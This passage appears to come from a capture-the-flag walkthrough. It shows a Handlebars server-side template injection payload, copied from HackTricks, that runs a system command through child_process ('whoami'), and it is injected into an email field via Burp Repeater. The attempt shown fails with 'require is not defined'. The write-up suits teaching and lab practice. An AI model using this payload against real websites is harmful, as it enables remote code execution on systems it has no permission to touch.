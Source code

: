 ![Repeater](repeater1.png)

Then we go to [HackTricks's SSTI Page](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) and find the `Handlebars (NodeJS)` section. We see this Javascript code that will allow us to make a syscall using the privileges the website has.

```javascript
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

We also see the Javascript code in URLencoded format. We go to the Repeater tab on BurpSuite and replace the email field in the Request tab with the URLencoded code we copied from HackTricks. We click the `send` button which sends our altered HTTP Request to the website. We capture the HTTP Response from the website which is a `Internal Service Error`. In the HTML code sent by the HTTP Response we see that `require is not defined`.

